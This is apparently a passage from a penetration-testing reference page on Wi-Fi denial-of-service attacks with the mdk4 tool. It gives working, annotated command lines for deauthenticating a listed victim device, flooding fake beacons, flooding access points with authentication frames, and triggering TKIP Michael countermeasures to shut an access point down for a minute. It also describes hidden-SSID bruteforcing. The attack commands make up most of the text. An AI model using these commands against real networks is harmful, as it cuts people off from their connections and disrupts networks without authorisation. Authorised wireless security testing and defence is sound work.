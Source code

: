 ```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them 
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```

### **More DOS attacks by mdk4**

**From** [**here**](https://en.kali.tools/?p=864)**.**

**ATTACK MODE b: Beacon Flooding**

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```

**ATTACK MODE a: Authentication Denial-Of-Service**

Sends authentication frames to all APs found in range. Too many clients can freeze or reset several APs.

```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```

**ATTACK MODE p: SSID Probing and Bruteforcing**

Probes APs and checks for answer, useful for checking if SSID has been correctly decloaked and if AP is in your sending range. **Bruteforcing of hidden SSIDs** with or without a wordlist is also available.

**ATTACK MODE m: Michael Countermeasures Exploitation**

Sends random packets or re-injects duplicates on another QoS queue to provoke Michael Countermeasures on **TKIP APs**. AP will then shutdown for a whole minute, making this an effective **DoS**.

```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```
